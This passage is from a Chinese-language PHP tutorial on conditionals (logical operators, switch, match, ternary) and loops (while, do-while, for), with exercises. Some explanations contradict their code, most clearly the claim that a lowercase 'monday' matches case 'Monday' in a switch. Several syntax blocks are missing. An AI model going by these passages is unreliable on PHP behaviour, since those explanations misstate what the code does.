

在本例中，我们有两个变量 `$a` 和 `$b`。我们使用逻辑与运算符（`&&`）组合两个条件：

`if` 条件使用逻辑运算符 `&&` 组合了两个条件：`$a > 5` 和 `$b > 100`。

由于这两个条件均为真，组合条件 `$a > 5 && $b < 100` 也为真。因此，执行 `if` 代码块并显示消息 "You have succeeded, condition true"。

##### 逻辑或运算符（`||`）的使用

逻辑或运算符（`||`）在至少一个组合条件为真时返回 TRUE。示例如下：

```php
$role = "admin";
$permission = "read";
if ($role == "admin" || $permission == "write") {
    echo "You have the necessary authorizations.";
} else {
    echo "You do not have the necessary authorization";
}
```

运行此代码将得到以下结果：



在本例中，`if` 语句的条件使用逻辑或运算符（`||`）组合了两个条件：`$role == "admin"` 和 `$permission == "write"`。第一个条件 `$role == "admin"` 成立，因为变量 `$role` 包含值 "admin"。由于我们使用的是逻辑或运算符，只要至少有一个条件为真，整个 `if` 语句即为真。因此，组合条件也被视为真。结果是执行了 `if` 代码块。

##### 组合逻辑运算符

我们还可以组合多个逻辑运算符以构建更复杂的条件。示例如下：

```php
$age = 25;
$role = "admin";
if (($age >= 18 && $role == "admin") || $role == "moderateur") {
    echo "You have access to advanced features";
} else {
    echo "You do not have access to advanced features";
}
```

运行此代码应得到以下结果：



在本例中，我们使用逻辑或运算符（`||`）组合了两个条件。第一个条件 `($age >= 18 && $role == "admin")` 检查用户年龄是否在 18 岁或以上**且**角色为管理员。仅当构成该条件的两个子条件（即 `$age >= 18` 和 `$role == "admin"`）均为真时，此条件才为真。在本例中，这两个子条件确实均为真。

第二个条件 `$role == "moderator"` 检查用户角色是否为版主。

由于我们使用的是逻辑或运算符（`||`），只要至少有一个条件为真，整个 `if` 语句即为真。在本例中，由于第一个组合条件为真（`$age >= 18 && $role == "admin"`），用户将获得高级功能的访问权限，从而显示消息 "You have access to advanced features"。

#### switch 控制结构

PHP 的 `switch` 控制结构是一个强大的工具，可根据表达式的值执行不同的操作。

可将其视为一个可在不同位置间切换的开关。每个位置代表一种不同的情况。如果开关设置为与表达式值对应的情况，则将执行与该情况关联的操作。

##### 语法与用法

`switch` 结构的通用语法如下：



在该语法中：

*   **expression**：这是你想要求值的表达式。它可以是变量、常量或任意表达式。
*   **value1**、**value2**、**...**：这些是你想要与表达式比较的值。每个值对应一个特定的情况。
*   **instruction1**、**instruction2**、**...**：这些是表达式与对应值匹配时要执行的指令。
*   **break**：此指令告诉 PHP 在执行完对应情况的指令后退出 `switch` 结构。如果没有 `break`，PHP 将继续执行后续情况的指令，这可能导致意外行为。
*   **default**：这是一个可选选项，指定当没有值与表达式匹配时要执行的代码。

`switch` 结构对表达式求值一次，并将其结果与 `case` 中指定的每个值进行比较。如果找到匹配项，则执行对应的指令，直到遇到 `break`。如果未找到匹配项且存在 **default** 子句，则执行默认指令。

下面通过一个具体示例来说明：假设你想根据星期几显示不同的消息。可以使用 `switch` 结构实现：

```php
$day = "monday";
switch ($day) {
    case "Monday":
        echo "Today is Monday.";
        break;
    case "tuesday":
        echo "Today is Tuesday.";
        break;
    case "Wednesday":
        echo "Today is Wednesday.";
        break;
    default:
        echo "Today is not Monday, Tuesday or Wednesday.";
}
```

在本例中，我们有 `$day`（开关）变量，并为一周中的每一天指定了不同的“情况”。如果 `$day` 的值与指定的某天匹配，则显示与该天关联的消息。如果没有任何情况匹配，则执行 `default` 代码块，显示默认消息。在本例中，由于 `$day` 的值为 "Monday"，执行此代码将显示 "Today is Monday"。

当你需要根据单个表达式的值处理多种情况时，可以使用 `switch` 结构。它使代码更清晰、更简洁，特别是当你有一系列条件需要依次评估时。当变量具有有限的可能值，且需要根据这些值执行不同操作时，`switch` 结构特别有用。

我们也可以不使用 `switch` 结构，而是使用条件结构 `if...elseif...else` 编写前面的代码，如下所示：

```php
$day = "Monday";
if ($day === "Monday") {
    echo "Today is Monday.";
} elseif ($day === "Tuesday") {
    echo "Today is Tuesday.";
} elseif ($day === "Wednesday") {
    echo "Today is Wednesday.";
} else {
    echo "Today is not Monday, Tuesday or Wednesday.";
}
```

这两段代码执行本质上相同的任务，即检查变量 `$day` 的值并根据该值显示消息。然而，它们使用不同的控制结构来实现相同的结果。

总体而言，这两种方法均有效，可根据程序的具体需求和开发者的偏好进行选择。

然而，如果我们有多个情况需要测试，且每种情况都需要与单个值进行比较，通常首选 `switch-case` 方法。这是因为其结构清晰简洁，便于处理多种情况，无需每次重复比较。

当被测试变量具有有限的可能值，且我们想根据这些值执行不同代码块时，使用 `switch-case` 特别合适。此方法还能避免代码重复，使代码更具可读性和可维护性。

##### switch 中多个情况的分组

PHP 的 `switch` 结构提供了在单个代码块中分组多个情况的可能性，为管理不同条件提供了更简洁有序的方法。下面通过一个具体示例来说明这一概念：

```php
$day = "thursday";
switch ($day) {
    case "Monday":
    case "tuesday":
    case "wednesday":
        echo "This is the beginning of the work week.";
        break;
    case "thursday":
    case "friday":
        echo "The end of the week is approaching.";
        break;
    case "saturday":
```


#### Switch 结构示例

```php
case "sunday":
    echo "It's the weekend!";
    break;
default:
    echo "Day not recognized.";
}
?>
```

在此示例中，"Monday"、"Tuesday" 和 "Wednesday" 被归为同一代码块，因为它们都需要执行相同的操作：指示工作周的开始。换句话说，如果 `$day` 的值为 "Monday"、"Tuesday" 或 "Wednesday"，程序将显示 "This is the start of the work week" 并退出 `switch`。

同样，"Thursday" 和 "Friday" 被归为一组以指示周末即将来临，"Saturday" 和 "Sunday" 被归为一组以指示周末。如果没有任何 `case` 匹配，则执行 `default` 代码块以指示该日期无法识别。

在此示例中，由于变量 `$day` 的值为 "Thursday"，执行此代码将显示 "The end of the week is approaching"。



#### match 控制结构

PHP 8 引入的 **match** 控制结构为 `switch` 结构提供了一个更简洁、更具表现力的替代方案，用于将某个值与一系列情况进行比较并执行相应的代码。其工作方式与 `switch` 结构类似，但语法更简化、更具表现力。

`match` 控制结构的语法如下：



语法说明：

*   **expression**：要计算的表达式。可以是变量、常量或任意表达式。
*   **value1, value2, ...**：要与表达式比较的值。每个值对应一个特定的情况。
*   **instruction1, instruction2, ...**：如果表达式与对应的值匹配，则执行的指令。
*   **default**：可选项，指定当没有任何值与表达式匹配时要执行的代码。它相当于 `switch` 结构中的 "default" 子句。

`match` 结构计算表达式的值，并将其结果与每个指定的值进行比较。如果找到匹配项，则执行相应的指令。如果未找到匹配项且存在 `default` 子句，则执行默认指令。

下面是一个说明 `match` 结构用法的简单示例：

```php
<?php
$day = "friday";
$message = match ($day) {
    'Monday' => "Today is Monday.",
    'Tuesday' => "Today is Tuesday.",
    'Wednesday' => "Today is Wednesday.",
    default => "Today is not Monday, Tuesday, or Wednesday."
};
echo $message;
?>
```

在此 PHP 代码中，我们有一个包含字符串 "friday" 的变量 `$day`。然后，我们使用 `match` 结构将变量 `$day` 的值与多个情况进行核对。每种情况对应一周中的一天：'Monday'、'Tuesday'、'Wednesday'。如果 `$day` 的值与其中一种情况匹配，我们将使用该日期对应的适当消息设置变量 `$message`。如果 `$day` 的值与这些情况都不匹配，我们将使用 `default` 情况来设置对应于未指定星期几的消息。



最后，我们使用 `echo` 语句显示变量 `$message` 中定义的消息。

在 PHP 中使用 `match` 结构简化了基于变量值检查多种情况的操作，并使其更易于阅读。这通常可以替代多个 `if` 和 `else if` 语句的使用。

##### 将 match 结果保存到变量中

当您希望稍后在代码中使用结果时，`match` 控制结构可以将其结果存储在变量中。当您需要在程序的多个位置使用与特定条件对应的值时，这非常有用。

例如，当您需要在网页的不同部分显示结果，或者需要根据此结果执行其他操作时，可以将 `match` 结果存储在变量中。

使用变量存储 `match` 结果还能使您的代码更具可读性和模块化，因为您可以为变量分配一个有意义的名称，以表示与特定条件对应的结果。

下面通过一个示例来说明这一想法：

```php
<?php
$state = "California";
$message = match ($state) {
    "California" => "You're in the Golden State!",
    "New York" => "Welcome to the Empire State!",
    "Texas" => "Howdy from the Lone Star State!",
    "Florida" => "Sunshine State greetings from Florida!",
    default => "You're not in California, New York, Texas, or Florida."
};
echo $message;
?>
```

此 PHP 代码使用新的 `match` 模式匹配结构将变量 `$state` 的值与多个情况进行核对。详细说明如下：

*   `$state = "California";`：将字符串 "California" 赋值给变量 `$state`。
*   `$message = match ($state) { ... };`：使用 `match` 结构将 `$state` 的值与不同情况进行比较。
*   `"California" => "You're in the Golden State!",`：如果 `$state` 的值为 "California"，则将消息 "You're in the Golden State!" 赋值给变量 `$message`。
*   `"New York" => "Welcome to the Empire State!",`：如果 `$state` 的值为 "New York"，则将消息 "Welcome to the Empire State!" 赋值给变量 `$message`。
*   `"Texas" => "Howdy from the Lone Star State!",`：如果 `$state` 的值为 "Texas"，则将消息 "Howdy from the Lone Star State!" 赋值给变量 `$message`。
*   `"Florida" => "Sunshine State greetings from Florida!",`：如果 `$state` 的值为 "Florida"，则将消息 "Sunshine State greetings from Florida!" 赋值给变量 `$message`。
*   `default => "You're not in California, New York, Texas, or Florida."`：如果 `$state` 的值与前面的任何情况都不匹配，则将消息 "You're not in California, New York, Texas, or Florida." 赋值给变量 `$message`。
*   `echo $message;`：最后，使用 `echo` 语句在屏幕上显示变量 `$message` 中包含的消息。

总之，此代码使用 `match` 结构根据变量 `$state` 的值显示不同的消息，以简化对不同情况的检查。


#### 三元条件结构

PHP 的三元条件结构提供了一种简洁高效的方式，可在单行代码中编写条件语句。当您需要评估一个简单条件并根据该条件的结果返回一个值时，它们特别有用。

三元条件结构的通用语法如下：


语法说明：

首先计算条件。

*   如果条件为 `true`，则将问号 `?` 后面的值赋给变量 `$variable`。
*   如果条件为 `false`，则将冒号 `:` 后面的值赋给变量 `$variable`。

下面是一个说明 PHP 中三元条件结构用法的简单示例：

```php
<?php
$age = 20;
$message = ($age >= 18) ? "You are an adult." : "You are a minor";
echo $message;
?>
```

在此示例中：

*   如果年龄大于或等于 18，则将消息 "You are an adult." 赋给变量 `$message`。
*   否则，将消息 "You are a minor" 赋给变量 `$message`。

在此示例中，变量 `$age` 的值为 20，条件 `$age >= 18` 评估为 `true`。因此，`"?"` 运算符后面的表达式被赋给变量 `$message`，得到以下结果：


如果使用得当，三元条件结构可以使您的代码更简洁、更易读。但是，重要的是不要过度使用它们，以保持代码的可读性。请仅针对简单、直接的条件审慎使用它们。

#### 结论


### PHP 中的条件结构

在本章关于 PHP 条件结构的内容中，我们探讨了控制程序执行流程的各种工具和技术。从简单的 `if-else` 语句到更复杂的结构，如 `switch` 和 `match`，我们了解了如何编写逻辑条件，以便根据输入数据做出决策。通过理解这些概念，PHP 开发者可以创建更健壮、更灵活的脚本，能够适应不同的情况，并根据应用程序的需求生成定制化的结果。通过审慎地使用条件结构，开发者可以使其程序更高效、更智能，从而提供更好的用户体验。

#### 练习

#### 练习 4

编写一个脚本，检查存储在变量中的数字是正数、负数还是零。

#### 练习 5

编写一个程序，使用条件指令检查按 100 分制评估的学生技能发展情况。

*   如果胜任水平达到 80% 或以上，该学生将归入第一组。
*   如果胜任程度在 50% 到 80% 之间，该学生将归入第二组。
*   如果胜任程度在 30% 到 50% 之间，该学生将归入第三组。
*   如果胜任水平低于 30%，该学生将不及格。

#### 练习 6

编写一个条件脚本，测试一个数字是否同时是 3 和 5 的倍数。

#### 练习 7

编写一个程序，根据数字显示星期几（例如 Monday），使用 `switch` 语句。

*   第 1 天视为 Monday（周一）。
*   如果数字不在 1 到 7 之间，默认显示 "invalid number"（无效数字）。

### 第 3 章：PHP 中的循环

欢迎来到 PHP 循环章节！循环是程序开发中必不可少的工具，因为它们可以根据特定条件重复执行指令。无论你是初学者还是经验丰富的开发者，本章都将引导你了解 PHP 中可用的不同类型的循环，向你展示如何有效地使用它们来自动化任务、浏览数据集合并创建更动态的程序。

我们将在本章中学习的循环包括：

*   `while` 循环
*   `do-while` 循环
*   `for` 循环

我们将重点介绍这些循环中的每一个的用法、优势以及实现的最佳实践。学习完这些循环后，你将发现如何使用它们来浏览和操作数据。

准备好潜入 PHP 循环的迷人世界吧，在这里你将学习如何以精确而优雅的方式操控代码的执行流程。通过掌握循环，你将能够创建更动态、更强大的 PHP 应用程序。那么，废话不多说，让我们一起探索 PHP 循环的内部运作机制吧！

#### `while` 循环

`while` 循环是 PHP 中的一种控制结构，它允许你在指定条件为真时重复执行一段代码块。其工作原理如下：

**步骤 1**：初始化条件：在进入 `while` 循环之前，需要定义一个条件。该条件是一个布尔表达式，会在循环的每次迭代之前进行求值。

**步骤 2**：条件求值：对条件进行求值，以确定其为真还是为假。

**步骤 3**：如果条件为真（即返回 `true`），则执行循环内部的代码块，即“指令”块。一旦该代码块执行完毕，程序返回步骤 2 并重新求值条件。

**步骤 4**：如果条件为假（即返回 `false`），则 `while` 循环结束，程序继续执行循环后的代码。



要有效地使用 `while` 循环，必须确保指定的条件最终会在某个时刻变为假，否则就有创建无限循环的风险。此外，必须在代码块内正确更新条件中使用的变量，以确保条件最终会变为假。

简而言之，`while` 循环允许你在指定条件保持为真时重复执行一段代码块。它是在 PHP 程序中创建灵活控制结构的有力工具。

`while` 循环的基本语法如下：


下面是一个说明 `while` 循环的示例：

```php
<?php

$counter = 1;

// 使用 while 循环显示 1 到 10 的数字
while ($counter <= 10) {
    echo "The counter is: $counter <br>";
    $counter++;
}

?>
```

在这段代码中，我们将 `$counter` 变量初始化为值 1。然后我们使用 `while` 循环来显示 1 到 10 的数字。

**步骤 1**：将 `$counter` 变量初始化为 1。

**步骤 2**：`while` 循环中指定的条件是 `$counter <= 10`。只要此条件为真，循环内的代码块就会被执行。

**步骤 3**：每次循环迭代时，块内的代码都会被执行。在本例中，我们使用 `echo` 显示当前的计数器值。然后，在每次迭代结束时，我们使用 `++` 运算符将 `$counter` 的值加 1。这确保了计数器随每次迭代逐步增加。

重复：只要条件 `$counter <= 10` 保持为真，步骤 2 到 3 就会重复执行。一旦 `$counter` 达到 11，条件变为假，`while` 循环结束。

这段代码将使用 `while` 循环显示 1 到 10 的数字。



`while` 循环极其灵活，可用于各种场景。当你需要根据某个条件不定次数地执行一段代码块时，它特别有用。

#### `do...while` 循环

`do...while` 循环类似于 `while` 循环，但有一个重要区别：条件是在代码块执行*之后*进行求值的。这意味着代码块*至少会执行一次*，即使条件从一开始就是假的。

`do...while` 循环的工作原理如下：

*   **步骤 1**：首先，循环内的代码块（指令）会在不检查条件的情况下执行第一次。
*   **步骤 2**：检查条件：代码块执行完毕后，对 `while` 关键字后指定的条件进行求值。
*   **步骤 3**：如果条件为真，则重新执行代码块（指令）。
*   **步骤 4**：否则，循环结束。

重复：只要 `while` 关键字后指定的条件保持为真，步骤 1 到 3 就会重复执行。



`do...while` 循环的通用语法如下：


下面是一个在 PHP 中使用 `do...while` 循环的示例：

```php
<?php

$counter = 1;

do {
    echo "The counter is: $counter <br>";
    $counter++;
} while ($counter <= 10);

?>
```

在本例中，`$counter` 变量被初始化为 1。

*   接着，大括号内的代码块被执行。它显示计数器的值。
*   代码块执行完毕后，对条件 `$counter <= 10` 进行求值。只要此条件为真，代码块就会被重新运行。
*   计数器在每次迭代时递增。
*   循环重复直到条件变为假，即当 `$counter` 达到值 11 时。

由于条件是在每次迭代结束时检查的，因此代码块至少会执行一次，即使初始条件为假。

该代码返回的结果与使用 `while` 循环的前一个示例完全相同。

但请注意，这两个循环的主要区别在于：`do...while` 循环保证代码块至少执行一次，而如果条件从一开始就是假的，`while` 循环可能根本不会执行代码块。

为了说明这一区别，假设我们将变量 `$counter` 初始化为 20。在这种情况下，条件 (`$counter <= 10`) 从一开始就是假的，因为 `$counter` 初始化为 20，大于 10。


因此，对于 `while` 循环，循环内部的代码块将永远不会被执行。

然而，对于 `do...while` 循环，`do...while` 循环内部的代码块至少会被执行一次，因为条件是在代码块执行后才进行评估的。即使条件（`$counter <= 10`）从一开始就是 `false`，代码块在检查条件前仍会执行一次。因此，即使 `$counter` 初始化为 `20`，消息也会显示一次。

#### for 循环

`for` 循环是一种控制结构，用于重复执行代码块指定的次数。当你预先知道想要执行的迭代次数时，它特别有用。

`for` 循环的通用语法如下：



*   **初始化**：这是初始化循环控制变量的地方。
*   **条件**：在每次循环迭代前评估此条件。如果为 `true`，则执行代码块。否则，循环结束。
*   **增量**：此步骤在每次迭代时修改循环控制变量。

注意这三个组件由分号（`;`）分隔。

`for` 循环提供了一种简洁的方式来编写需要初始化、条件判断和增量操作的循环。

让我们通过一个具体的例子来更好地理解其工作原理。假设我们要显示从 1 到 5 的数字。

```php
for ($i = 1; $i <= 5; $i++) {
    echo $i . "<br>";
}
```

在该示例中：

*   初始化是 `$i = 1`，我们将控制变量 `$i` 初始化为 1。
*   条件是 `$i <= 5`，只要变量 `$i` 小于或等于 5，循环将继续运行。
*   增量是 `$i++`，我们在每次迭代时增加 `$i` 的值。

该代码的结果将显示从 1 到 5 的数字。



让我们看另一个例子，显示数字 7 的乘法表：

```php
for ($i = 1; $i <= 10; $i++) {
    $result = 7 * $i;
    echo "7 x $i = $result <br>";
}
```

在此代码中，`for` 循环的每次迭代计算 7 与 `$i` 值的乘积并将结果存储在变量 `$result` 中，然后显示结果。

因此，运行此代码将显示 7 的乘法表。

